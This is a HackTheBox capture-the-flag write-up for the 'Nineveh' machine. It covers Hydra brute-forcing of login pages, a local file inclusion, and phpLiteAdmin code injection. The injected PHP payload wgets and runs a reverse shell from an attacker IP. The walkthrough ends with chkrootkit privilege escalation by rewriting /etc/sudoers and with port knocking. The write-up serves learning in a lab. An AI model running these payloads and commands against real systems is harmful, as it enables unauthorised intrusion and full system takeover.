



# nineveh

## Reconnaissance

### nmap

```
nmap -sV -sC -oA nineveh 10.129.228.127
```


### Web Application

- HTTP (Port 80)


- HTTPS (Port 443)


- Check Certificate information


- Get DNS name


- Set hosts 
```
vim /etc/hosts
```

### Path BruteForce

- Bruteforce https site
```
gobuster dir -u https://nineveh.htb -w /usr/share/wordlists/dirb/common.txt --no-tls-validation
```


- Brute force http site
- Find deparment directory
```
gpbuster dir -u http://nineveh.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


- Brute force http site under department directory
- Find css and files directory
```
gobuster dir -u http://nineveh.htb/department -w /usr/share/wordlists/dirb/common.txt
```


### Web Path for HTTPS

- Check /db
- PHP Lite admin v1.9
- Login Page need password


- And accroding to the research.


- Try default password --> admin --> failed --> Show "Incorrect password"


### Web Path for HTTP

- Check /department
- Login Page 


- Try arbitrary credential --> admin/admin --> Failed --> Show "Invalid Password"


- Confirm the error meessage --> try test/1 --> Failed --> Show "Invalid username"


- So, I can confirm 'admin' is one of the user.

## Exploit

### Thinking

1. Bruteforce password
2. phpLiteAdmin v1.9 exploit

#### About bruteforce

>Bruteforce phpliteadmin
- Check login request first 
- It looks like: ``` password=admin&remember=yes&login=Log+In&proc_login=true ```


- Using Hydra

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt nineveh.htb https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect" -t 64
```


- Get password: ``` password123```

>Bruteforce department login
- Check login request first


- Using Hydra to bruteforce without specify username
```
hydra -L /usr/share/seclists/Usernames/Names/names.txt -P /usr/share/wordlists/rockyou.txt nineveh.htb http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid" -t 64 
```


- I have tried above result, but it still failed.
- So I change to use Hydra to bruteforce specify username as 'admin'
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt nineveh.htb http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid" -t 64 
```


- Got credential: ```admin / 1q2w3e4r5t```
- Try to login -> Success.


#### LFI 
- Enumerate the website, the Notes will show following message.
```
Have you fixed the login page yet! hardcoded username and password is really bad idea!

check your serect folder to get in! figure it out! this is your challenge

Improve the db interface.
~amrois

```

- Check the URL, it will read file from **notes** parameter(``` files/ninevehNotes.txt```)


- Then I tried to make a error on ** notes **.
>Payload: files/ninevehNotes.t


- It response error message like:
```
Warning:  include(files/ninevehNotes.t): failed to open stream: No such file or directory in /var/www/html/department/manage.php on line 31


Warning:  include(): Failed opening 'files/ninevehNotes.t' for inclusion (include_path='.:/usr/share/php') in /var/www/html/department/manage.php on line 31
```


- I know the manage page use ```include function``` to take specified file and copied it into the manage page.
- since the ```include function``` has potential File inclusion vulnerbilities.
- So, I think the LFI might be a possible vulnerability for this website.
- And according to the error message and the gobuster result, I guess the files directory absolutely path is ``` /var/www/html/department/files``` 
- I tried the folloing:
    - ``` files/ninevehNotes.txt/../../../../../../etc/passwd```
    - Warning Message about No such file or directory
    
    
    - ``` /var/www/html/department/manage.php```
    - Result: No Note is selected.

    
    - ``` /etc/passwd ```
    - Result: No Note is selected.

    
    - ``` files/../../../../../etc/passwd``` 
    - Result: No Note is selected.

    
- According to above test, the interesting thing is if I tried to access the any file without ```ninevehNotes```, the result will be ``` No Note is selected. ```.
- But if I access the file with ```ninevehNotes```, it sometimes will display ``` Warning Message```
- So, I think the manage php file will check if ```ninevehNotes``` existing in  the notes value or not, if yes, it will executed the include function to find the file.

#### Exploit phpLiteAdmin v1.9.3

- Login to phpLiteAdmin
- Check the URL: https://nineveh.htb/db/index.php


- Click any of the tabs
- Check the URL: https://nineveh.htb/db/index.php?view=structure


- Accordin to the research, the phpLiteAdmin v1.9.3 has RCE vulnerability
- [(ExploitDB) phpAdminLite v1.9.3 RCE](https://www.exploit-db.com/exploits/24044)


- Try to exploit follow [this video](https://www.youtube.com/watch?v=G1i5oWblx9Q)
- So I create hack php file and directly access it.
- But I only get 404 not found.
- According to the Research and LFI result, I think maybe I can create a file named as ```ninevehNotes``` and containe PHP shell code, then execute it by LFI vulnerablities.
- Create Database named as '```ninevehNotes.php```'


- Create table  


- Set the column
- Payload: ``` <?php system("wget http://10.10.17.145:9797/php-reverse-shell.php -O /tmp/shell.php; php /tmp/shell.php");?> ```


- Check the php web shell path ``` /var/tmp```


- Execute it by LFI


## Post Exploitation

- The http server log the php reverse shell be download and nc listener got shell


- First got user ``` www-data``` 


- Enumerate vitim, I know the existing user is: amrois


- Under user directory, 2 interesting part
    - ```.ssh ``` directory
    - user flag can't read by ```www-data```


- Check website directory ```/var/www ```
    - ssl directory (HTTPS)
    
    
    - html directory (HTTP)
    
    
    

- Check secure_notes under ssl


- The index html file under secure_notes


- Check the png file 


- First download png from website and check by exiftool 


- Using string command to read the content of png.
- I find a interesting string --> ssh private key.
- Copy it to file and upload to victim.


- Since I didn't find ssh service in nmap, but the netstat in victim host has shown the port 22, so ssh port might only private run in victim.


- The other interesting thing is ssh public key.


- Since the end of public key, it show ```amrois@nineveh.htb```,  I want to try to access ssh from public. --> Failed 


- The local hosts file in victim shows 
```
127.0.0.1 nineveh.htb nineveh
```


- Upload it to victim

```
cd /var/tmp
wget http://10.10.17.145:9797/nineveh
```
- Try to ssh login --> Failed


- Upload linux enumerate shell and execute it
```
wget http://10.10.17.145/linpeas.sh
```
- Find a bunch of report path which be modifeied in last 5 mins
- I think the file modify automatically, it might be set up in crontab


- Check /report 


- But the crontab content seems don't have any suspicious.


- Check the report content


- According to the content, it shows which file is infected, which file is suspicious one.
- I think there is some malicious checking program in this host.


- And it also has a rootkit ``` Suckit rootkit``` infect /sbin/init


- Upload ```pspy64s``` and execute it.
- First, I found there are three service which I think it's a key point run 
```
/usr/sbin/apache2 -k start
/usr/sbin/knockd -d -i ens160
/usr/sbin/sshd -D
```


- There are also 2 check program.
```
/bin/sh /usr/bin/chkrootkit
/bin/bash  /root/vulnScan.sh
```
- I think the ```vulnScan.sh``` can't be read since it stored in root directory


- Check chkrootkit content, but failed to read (Permission Denied)


- Using searchsploit to find is there any esclation exploit code can use.
- And I find 1 local privilege escalation exploit code.
```
searchsploit chkrootkit
```


- Check the exploit detail
```
searchsploit -x linux/local/33899.txt
```
- I think the problem happened on slapper function


- And there is also a step to reproduce it.
- It also said that the file ```/tmp/update``` will be executed as root.
- So, I think I need to create a update file under ```/tmp```


### Privilege Escalation

- Create update file with privilege escalation payload under ```/tmp```
```
echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:ALL">> /etc/sudoers && chmod 440 /etc/sudoers' > update
```


- Check the file created successful or not


- The update file permission doesn't contain execute(x)
- Adding it.
```
chmod +x update
```
- Wait for the update file be execute. (maybe wait for 1-2 minutes)
- Then execute the folloing command 
```
sudo su
```


- I can get root permission


- Get user flag: 
``` 8289c4a72848e5ecad392959ad2907b2 ```


- Get root flag: 
``` 77aad9fa406d9e2b121fbbe4f03b07ab ```


- Besdies modifing sudoers, here is other different method to get root shell in this [article](https://vk9-sec.com/chkrootkit-0-49-local-privilege-escalation-cve-2014-0476/)


## Reference 

### Write up

- [(Discussion)Nineveh](https://forum.hackthebox.com/t/nineveh/74/5)
- [(Video) Write up](https://www.youtube.com/watch?v=K9DKULxSBK4)
- [Nineveh Writeup -1](https://manuelvazquez-contact.gitbook.io/oscp-prep/hack-the-box/nineveh/exploitation)
- [Nineveh Wirteup-2](https://github.com/Kyuu-Ji/htb-write-up/blob/master/nineveh/write-up-nineveh.md)
- [Nineveh Wirteup-3](https://0xdf.gitlab.io/2020/04/22/htb-nineveh.html)

### phpAdminLite v1.9.3 Vulnerability

- [(ExploitDB) phpAdminLite v1.9.3 RCE](https://www.exploit-db.com/exploits/24044)
- [phpLiteAdmin default Password](https://www.acunetix.com/vulnerabilities/web/phpliteadmin-default-password/)
- [phpLiteAdmin bruteforce password by hydra](https://manuelvazquez-contact.gitbook.io/oscp-prep/hack-the-box/nineveh/exploitation)
- [phpliteadmin <= 1.9.3 远程php代码执行漏洞测试](https://blog.51cto.com/penright/1116853)
- [L@usch.io - Hacking Demonstration for phpliteadmin 1.9.3 and prior - Infect targets with a Webshell](https://www.youtube.com/watch?v=G1i5oWblx9Q)

### chkrootkit 0.49 Local Privilege Escalation

- [Chkrootkit 0.49 – Local Privilege Escalation – CVE-2014-0476](https://vk9-sec.com/chkrootkit-0-49-local-privilege-escalation-cve-2014-0476/)
- [(metasploit)Chkrootkit 0.49 – Local Privilege Escalation](https://www.rapid7.com/db/modules/exploit/unix/local/chkrootkit/)
- [(ExploitDB)Chkrootkit 0.49 – Local Privilege Escalation](https://www.exploit-db.com/exploits/33899)


### chkrootkit 

- [locally checks for signs of a rootkit](http://www.chkrootkit.org/)
- [LINUX下安装配置chkrootkit后门监测工具](https://blog.51cto.com/u_15161838/2742578)
- [【Day26】檢測隱寫術/Rootkit的工具](https://ithelp.ithome.com.tw/m/articles/10280621)
- [chkrootkit](https://www.kali.org/tools/chkrootkit/)
- [chkrootkit](https://en.wikipedia.org/wiki/Chkrootkit)
- [Chkrootkit Suckit rootkit INFECTED message - What now?](https://www.dedoimedo.com/computers/chkrootkit-suckit-message.html)


### Tools 

- [Hydra Tutorial-1](https://zhuanlan.zhihu.com/p/397779150)


- [How to Use Hydra  to Hack Passwords – Penetration Testing Tutorial](https://www.freecodecamp.org/news/how-to-use-hydra-pentesting-tutorial/)


- [(HackTrick)Brute Force - CheatSheet](https://book.hacktricks.xyz/generic-methodologies-and-resources/brute-force)
- [Day29_滲透 thc-hydra](https://ithelp.ithome.com.tw/articles/10251369)
- [OSCP-cheatsheet](https://github.com/russweir/OSCP-cheatsheet/blob/master/File%20Inclusion.md)
- [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell)


### PHP LFI Related

- [[五分鐘教室] PHP 檔案引入路徑問題](https://jaceju.net/php-include-path/)
- [(Offensive Security)FILE INCLUSION VULNERABILITIES](https://www.offensive-security.com/metasploit-unleashed/file-inclusion-vulnerabilities/)
- [(HackTrick)File Inclusion/Path traversal](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
- [【PHP筆記】| include() include_once() require() require_once() 的差異](https://ithelp.ithome.com.tw/articles/10238540)
- [[PHP教學] - 初學者最易混淆的include、include_once、require、require_once之比較](https://injerry.pixnet.net/blog/post/39082306)


- [LFI、RFI、PHP封裝協議安全問題學習](https://www.twblogs.net/a/5b8d36622b717718833c52e6)
- [Local File Inclusion(LFI)](https://www.aptive.co.uk/blog/local-file-inclusion-lfi-testing/)
- [What is Local File Inclusion (LFI)?](https://brightsec.com/blog/local-file-inclusion-lfi/)
- [[Day7] - PHP(LFI/RFI)](https://ithelp.ithome.com.tw/articles/10240486)
- [PHP Include & Require : All about Include vs Require in PHP](https://www.simplilearn.com/tutorials/php-tutorial/include-in-php)
- [What is an LFI Vulnerability?](https://highon.coffee/blog/lfi-cheat-sheet/)

### Linux Command

- [Unix/Linux 的 find 指令使用教學、技巧與範例整理](https://blog.gtwang.org/linux/unix-linux-find-command-examples/)
- [Linux / Unix Find Command Avoid Permission Denied Messages](https://www.cyberciti.biz/faq/bash-find-exclude-all-permission-denied-messages/)
- [Linux Find Out Which Process Is Listening Upon a Port](https://www.cyberciti.biz/faq/what-process-has-open-linux-port/)


### SSH 

- [產生SSH Key並且透過KEY進行免密碼登入](https://xenby.com/b/220-%E6%95%99%E5%AD%B8-%E7%94%A2%E7%94%9Fssh-key%E4%B8%A6%E4%B8%94%E9%80%8F%E9%81%8Ekey%E9%80%B2%E8%A1%8C%E5%85%8D%E5%AF%86%E7%A2%BC%E7%99%BB%E5%85%A5)
- [How to Use SSH Using Private Key in Linux](https://linuxhint.com/ssh-using-private-key-linux/)
- [解決 SSH 的 Host key verification failed](https://www.ltsplus.com/linux/fix-ssh-login-host-key-verification-failed)
- [What Does “Host Key Verification Failed” Mean?](https://linuxhint.com/host-key-verification-failed-mean/)

### Issued Fixed

#### /dev/tcp no such file or directory

- [【Bash】关于 /dev/tcp/${HOST}/${PORT}](https://www.jianshu.com/p/08e1e5d6d76c)
- [/dev/tcp not found](https://unix.stackexchange.com/questions/241174/dev-tcp-not-found)


## Rabbit hole or learning in this challenge

1. LFI vulnerability
    - At first I always try to use (../) to make sure whether the LFI exist or not.
    - But I think I need to change my mind, when I saw the website using parameter in url or in body to read file from victim host. 
    - Then I should suspect it has LFI, and try to make the error message to figure out or to prove my assume is right or not.
    - And I also need to consider different error response may represent different confition that the vulnerability need to take.
    - Finally, the payload also need to be tried, every different payload should be tried at lease 2 times
2. ssh question 
    - It doesn't open from nmap result
    
    
    - From internal netstat, it is listening

    
    - I found the private key from the image download from secret_notes

    
     
    
    - I tried to using ssh to login from both attack host and victim host, but attack host won't reply anything and victim host will reply: Host Key Verification Failed 
- Above is the problem I got after I know the ssh is open.
- And I watched the writeup from [ippsec](https://www.youtube.com/watch?v=K9DKULxSBK4)
- Here are the new things I learned:
    1. Stego tool: binwalk
        - Ippsec use binwalk to analysis image
        - Here is the command
        ```
        binwalk <image file>
        binwalk -Me <image file> --> extract everything in binwalk
        ```
        
        
        
        

    2. Port knocking (According to IppSec)
        - How to confirmed ?
        >According to above description, the ssh service port only display in netstat result in the internal. So, I need to assume the ssh port open, but it is hide from external. And the hiding method called port knocking.
        - How it works ? 
        >Port knocking works by sending information packets with certain characteristics to a port. These packets of information comprise attempted connections to a predefined selection of closed ports and can include specific strings, unusual flags and other distinctive characteristics. 
        >Once the selection of ports have had these packets sent to them, port opening is normally performed by the organization’s host-based firewall or other comparable custom software. This has been observed to initiate both dynamic opening of listening ports and connections to listening servers on another system. 
        - What does the port knocking do in this lab?
        - Assume that I have get into victim host with user - ```www-data```
        
        
        - Check network stats
        ```
        netstat -tunlp
        ```
        
        
        - Check iptables to confirm the firewall rule
        ``` cd /etc/iptables ```        
        
        
        ``` cat rules.v4 ```
        
        
        - Check service in init.d
        ``` ls /etc/init.d ``` 
        
        
        - Find knock related service 
        ``` ls -al | grep knoc```
        
        
        - Check service knockd content
        ```
        cat knockd
        ```
        
        - It  shows that default file locate in ``` /etc/default/knockd ``` 

        
        - Check ``` /etc/default/knockd``` 
        - It shows there is another file related to the rule /etc/knockd.conf

        
        - Check ``` /etc/knockd.conf ``` 
    
        
        - Here are rules for open / close SSH
        
        
        - Create a bash script to access those three ports
        ```
        for i in 571 290 911; do nmap -Pn -p $i nineveh.htb; done
        ```
        
        
        - Confirm the SSH port from external
        ```
        nmap -Pn -p 22 nineveh.htb
        ```
        
        
        - Port Knocking by nmap 
        ```
        nmap -Pn --host-timeout 201 --max-retries 0  -p <condition port> nineveh.htb
        ```
        - Put the nmap command into bash script
        ```
        for i in 571 290 911; do nmap -Pn --host-timeout 201 --max-retries 0  -p $i nineveh.htb; done
        ```
        
        
        - SSH become Open
            
        

        - Login through SSH 
        ```
        ssh -i nineveh.priv amrois@nineveh.htb
        ```
        
        
        

### Reference 

- [MITRE ATT&CK: Port knocking](https://resources.infosecinstitute.com/topic/mitre-attck-port-knocking/)
- [Port Knocking nmap](https://wiki.archlinux.org/title/Port_knocking)


### How to monitor which process running (from ippsec)

>During the challenge, I found the port 22 running on the server, and it only can be found in victim server internal.
>Besides that, I also find out a bunch of report file under /report
>In that time, I want to find out what kind of service/process open the port 22 and create those report files.
>Then I found ippsec has the following shellcode can monitor process.
>It might be a useful tool in the future
```
#!/bin/bash

# Loop by line
IFS=$'\n'

old_process=$(ps -eo command)
while true; do
    new_process=$(ps -eo command)
    diff <(echo "$old_process") <(echo "$new_process") |grep [\<\>]
    sleep 1
    old_process=$new_process
done

```

- In this script, here are 2 command need to know
    1.``` ps -eo command ```:  list all the things run on the server.
    2.``` IFS ```: It's kind of internal field seperator, by default is space .


###### tags: `HackTheBox` `linux` `medium`  `chkrootkit` `phpliteadmin` `Port knocking` `LFI` `lfi` `rbash`